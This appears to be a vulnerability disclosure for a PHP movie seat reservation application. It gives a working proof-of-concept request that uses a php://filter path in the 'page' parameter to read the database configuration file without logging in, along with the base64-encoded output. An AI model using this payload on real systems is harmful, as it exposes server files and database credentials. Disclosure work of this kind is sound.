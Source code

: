 # Movie Seat Reservation System Unauthenticated File Disclosure
* `Note` => don't need login 
# Exploit 
* Exploit with Burp Suite 
```python
http://192.168.1.101:8080/Movie_Seat_Reservation_System/index.php?page=home
```
![image](https://user-images.githubusercontent.com/79050415/160242883-2539e290-9b33-4267-a38b-a2d37563b0a2.png)
* Use Burp Suite capture request and payload => `Send`
![image](https://user-images.githubusercontent.com/79050415/160242922-7c29a7ac-787f-47b8-9052-6c5c2d7495cb.png)
* Then decode `Base64` 
```python3
 PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyb290JywnJywndGhlYXRlcl9kYicpb3IgZGllKCJDb3VsZCBub3QgY29ubmVjdCB0byBteXNxbCIubXlzcWxpX2Vycm9yKCRjb24pKTsNCg==    
```
![image](https://user-images.githubusercontent.com/79050415/160243014-eff96877-37c4-41ba-b4ed-0359cbbece7b.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/160243179-1a4d1053-eb75-4a8c-9965-52d3eaeb5b18.png)
# POC 
* `Request`
```python
GET /Movie_Seat_Reservation_System/index.php?page=php://filter/convert.base64-encode/resource=admin/db_connect HTTP/1.1
Host: 192.168.1.101:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Movie_Seat_Reservation_System/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0722dtqnb1dgvuono8uubajcae
Connection: close
```
